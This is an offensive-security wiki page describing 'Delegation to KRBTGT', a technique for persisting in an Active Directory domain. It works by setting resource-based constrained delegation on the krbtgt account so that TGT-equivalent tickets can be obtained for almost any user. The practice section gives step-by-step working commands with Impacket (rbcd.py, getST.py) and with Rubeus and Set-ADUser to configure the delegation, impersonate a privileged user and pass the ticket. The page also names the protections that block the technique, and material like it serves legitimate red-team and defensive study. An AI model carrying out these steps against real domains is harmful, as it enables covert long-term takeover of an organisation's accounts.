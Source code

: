 # Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](broken-reference)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. Since a TGT is just a service ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work ([not mandatory though](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](broken-reference) to use the TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Every step of this attack can be achieved using one of the following scripts from Impacket : rbcd.py and getST.py.

{% code overflow="wrap" %}
```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Every step of this attack can be achieved using Rubeus and the Set-ADUser command.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
<strong>Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash
</strong>
# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence" %}

{% embed url="https://skyblue.team/posts/delegate-krbtgt/" %}

{% content-ref url="../../movement/kerberos/delegations/rbcd.md" %}
[rbcd.md](../../movement/kerberos/delegations/rbcd.md)
{% endcontent-ref %}
